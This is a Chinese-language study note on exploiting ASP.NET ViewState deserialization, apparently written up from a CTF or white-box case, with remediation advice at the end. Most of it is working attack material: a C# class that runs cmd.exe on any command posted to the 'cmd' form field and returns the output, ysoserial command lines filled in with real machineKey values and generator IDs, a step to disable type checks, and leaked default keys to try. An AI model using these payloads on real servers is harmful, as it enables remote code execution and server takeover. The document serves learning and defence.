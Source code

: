 <a name="rUePX"></a>
## ViewState反序列化
1、ASP.NET 在生成和解析ViewState时使用ObjectStateFormatter 进行序列化和反序列化

2、序列化后需要进行加密和签名，一旦泄露了加密和签名所使用的算法和密钥就可以将ObjectStateFormatter 的反序列化payload 伪装成正常的ViewState，并触发ObjectStateFormatter 的反序列化漏洞。

<a name="QQcEk"></a>
## 条件
需要获得以下值<br />validationKey（web.config值）、validation（web.config值）、generator(前端页面获取__VIEWSTATEGENERATOR的值)

<a name="D8fKG"></a>
## ObjectStateFormatter 反序列化demo
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664465235013-d22d91a3-f216-4e32-87cc-3fe73c8e9589.png#clientId=u4edc1904-2473-4&from=paste&height=451&id=u2b9f1fe1&originHeight=564&originWidth=1290&originalType=binary&ratio=1&rotation=0&showTitle=false&size=57686&status=done&style=none&taskId=uc3d4ebe0-b286-4b2c-a8b6-51dce80bb26&title=&width=1032)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664465245327-4c6e88f0-9865-494c-9f07-3984b2974c64.png#clientId=u4edc1904-2473-4&from=paste&height=202&id=ubc715963&originHeight=252&originWidth=1343&originalType=binary&ratio=1&rotation=0&showTitle=false&size=18770&status=done&style=none&taskId=ufd83a2db-e266-4ec2-a007-9c318d51f84&title=&width=1074.4)

<a name="UoIhO"></a>
## 反序列化利用
先打个问号，是通过看web.config中是否有 validationkey决定的吗？  怎么才能利用这个反序列化？<br />发现__VIEWSTATE   获取→   validationKey（web.config值）、validation（web.config值）、generator(前端页面获取__VIEWSTATEGENERATOR的值) 利用→ ysoserial.exe -p ViewState 生成反序列化payload

例如碰到了某个CTF题目<br />存在__VIEWSTATE<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664526879562-f1cdaf55-a5fc-46cc-8031-8d3a633945c0.png#clientId=u681a97d0-93e1-4&from=paste&height=658&id=ubb7f4be7&originHeight=822&originWidth=1279&originalType=binary&ratio=1&rotation=0&showTitle=false&size=66767&status=done&style=none&taskId=u1b1930eb-bcf8-43dd-8d4d-b5795f9cb26&title=&width=1023.2)<br />并且白盒中，知道了web.config中的validationKey、validation值
```
<machineKey validationKey="b07b0f97365416288cf0247cffdf135d25f6be87" decryptionKey="6f5f8bd0152af0168417716c0ccb8320e93d0133e9d06a0bb91bf87ee9d69dc3" decryption="DES" validation="MD5" />

```
<a name="t9YzR"></a>
### 命令回显 ActivitySurrogateSelectorFromFile
下面参考[Cyku](https://devco.re/blog/author/cyku)大佬的文章，构造ExploitClass.cs文件（构造带回显的 VIEWSTATE Payload，实现RCE）  [https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/](https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/)
```
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Form["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}

```

这个时候的-c参数就不是什么命令执行了，是通过代码去执行了，这里很关键，比如情景：如果有360的情况下，可能会拦截cmd.exe起来的进程，导致无法写入文件等操作，但是可以代码构造webshell写入文件从而接管服务器。
```
ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "ExploitClass.cs;./System.dll;./System.Web.dll" --generator="CA0B0334" --validationalg="MD5" --validationkey="b07b0f97365416288cf0247cffdf135d25f6be87"
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664527481204-38c7dd69-6e10-4e53-a661-b99159d0d03f.png#clientId=u681a97d0-93e1-4&from=paste&height=544&id=uea2955e6&originHeight=680&originWidth=1419&originalType=binary&ratio=1&rotation=0&showTitle=false&size=58200&status=done&style=none&taskId=u355643fc-68d3-4788-af77-568376b8255&title=&width=1135.2)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664526635291-2597c7ce-6c82-4097-b50f-e882bb15a2c0.png#clientId=u681a97d0-93e1-4&from=paste&height=494&id=ufe6e37df&originHeight=618&originWidth=1741&originalType=binary&ratio=1&rotation=0&showTitle=false&size=71495&status=done&style=none&taskId=ufb032352-9d9d-4a6f-a8f3-eb63c110d0a&title=&width=1392.8)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664526740329-ccc9e320-116d-48ca-abc0-376df74aaccb.png#clientId=u681a97d0-93e1-4&from=paste&height=720&id=uab0e2b46&originHeight=900&originWidth=925&originalType=binary&ratio=1&rotation=0&showTitle=false&size=78869&status=done&style=none&taskId=u8d5bc784-87c4-4656-9bca-593d229bb37&title=&width=740)

<a name="sBIW4"></a>
### 命令执行 TypeConfuseDelegate 
ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "whoami && ipconfig" --generator="CA0B0334" --validationalg="SHA1" --validationkey="B3B8EA291AEC9D0B2CCA5BCBC2FFCABD3DAE21E5"

<a name="LKWL7"></a>
### 关闭500响应 ActivitySurrogateDisableTypeCheck
有时候无论构造什么payload，页面都是500状态，可以先发送一次ActivitySurrogateDisableTypeCheck 然后再重新打命令回显的payload

ysoserial.exe -p ViewState -g ActivitySurrogateDisableTypeCheck -c "ignore" --generator="CA0B0334" --validationalg="SHA1" --validationkey="B3B8EA291AEC9D0B2CCA5BCBC2FFCABD3DAE21E5"

<a name="wdqxr"></a>
## 创建ViewState Payload版本差异
一段web.config中的machineKey
```
<machineKey validationKey="b07b0f97365416288cf0247cffdf135d25f6be87" decryptionKey="6f5f8bd0152af0168417716c0ccb8320e93d0133e9d06a0bb91bf87ee9d69dc3" decryption="DES" validation="MD5" />
```

ViewState反序列化在.NET Framwork 4.5及以上版本的时候是需要decryptionKey和decryption
```
.\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --decryptionalg="AES" --decryptionkey="" --validationalg="" --validationkey=""
```

在.NET Framwork 4.0及以下版本时则不需要decryptionKey和decryption
```
.\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --islegacy --validationalg="" --validationkey="" –isdebug
```

**总结**<br />1、.NET Framework 4.5版本之前的验证密钥及其算法；<br />2、.NET Framework 4.5或更高版本中的验证密钥、验证算法、解密密钥和解密算法

<a name="AFT9Y"></a>
## 判断mac是否有进行校验
mac其实是指machineKey   也就是web.config那几个参数的加解密算法 <br />要怎么对mac进行判断呢，其实很简单，对__VIEWSTATE参数随意进行一个base64的编码，看响应包，如果有校验的话，就会报错<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664551807507-a4609231-7ce5-428a-b3af-8c8be1a39d9d.png#clientId=u681a97d0-93e1-4&from=paste&height=638&id=ubfe5f1e9&originHeight=797&originWidth=1556&originalType=binary&ratio=1&rotation=0&showTitle=false&size=63119&status=done&style=none&taskId=u37dcb239-fc10-46bd-83f2-e2d8adb6384&title=&width=1244.8)

如果没有校验的话，可以尝试用以下默认配置去构造payload进行攻击<br />**2014年以前微软默认的mac设置**
```
<machineKey validationKey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" decryptionKey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" validation="HMACSHA256" decryption="AES"  />
```

<a name="YPsaZ"></a>
## 修复方式
1、单台服务器可以进行动态machineKey<br />2、负载均衡服务器，可以对配置文件中machineKey的关键参数进行加密

<a name="vo6eq"></a>
## 安全的mac设置
使用AutoGenerate自动生成加解密算法
```
<system.web>  
  <machineKey validationKey="AutoGenerate,IsolateApps"   
    decryptionKey="AutoGenerate,IsolateApps"   
    validation="SHA1"/>  
</system.web>
```
<a name="XUVc2"></a>
## 学习资料
土司大神 关于反序列化详解<br />[https://www.t00ls.com/articles-55183.html](https://www.t00ls.com/articles-55183.html)

生成payload的攻击思路<br />[https://blog.csdn.net/qq_41891666/article/details/107290131](https://blog.csdn.net/qq_41891666/article/details/107290131)<br />[https://www.4hou.com/posts/OLkE](https://www.4hou.com/posts/OLkE)<br />[https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/](https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/)

[https://learn.microsoft.com/en-us/dotnet/api/system.web.configuration.machinekeysection?view=netframework-4.8](https://learn.microsoft.com/en-us/dotnet/api/system.web.configuration.machinekeysection?view=netframework-4.8)<br />__VIEWSTATE 解密站<br />[https://viewstatedecoder.azurewebsites.net/](https://viewstatedecoder.azurewebsites.net/)

底层的ViewState代码调试<br />[https://www.anquanke.com/post/id/221630](https://www.anquanke.com/post/id/221630)


Asp.Net的很多加密，都是依赖于machineKey的设置，例如Forms 身份验证 Cookie、ViewState的加密。**默认情况下，Asp.Net的配置是自己动态生成**，validationKey和decryptionKey的默认值是AutoGenerate。如果单台服务器当然没问题，**但是如果多台服务器负载均衡**，machineKey还采用动态生成的方式，每台服务器上的machinekey值不一致，就导致加密出来的结果也不一致，**不能共享验证和ViewState**，所以对于多台服务器负载均衡的情况，一定要在每台站点配置相同的machineKey。

<a name="WYxr2"></a>
## 最后的疑惑？
白盒要怎么才能找到ViewState反序列化的点呢？
